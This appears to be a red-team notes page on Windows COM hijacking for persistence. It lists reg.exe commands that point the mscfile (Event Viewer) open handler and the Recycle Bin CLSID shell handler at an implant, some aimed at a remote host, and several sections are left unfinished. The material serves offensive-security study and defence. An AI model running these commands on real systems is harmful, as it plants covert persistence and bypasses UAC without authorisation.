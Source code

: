 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1122
  - windows
---
```

# COM Hijacking

TODO: Fill this info

## Event Viewer

### Command Prompt

```
C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

### PowerShell

```

```

## Recycle Bin

### Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\implant.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\implant.exe" /f
```

### PowerShell

```

```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/BypassUAC/Types of Bypassing UAC/MMC/Manual]]

### Persistence Info

- [Persistence Info: Recycle Bin COM Extension Handler](https://persistence-info.github.io/Data/recyclebin.html)

### Red Team Notes

- [Red Team Notes: COM Hijacking](https://www.ired.team/offensive-security/persistence/t1122-com-hijacking)
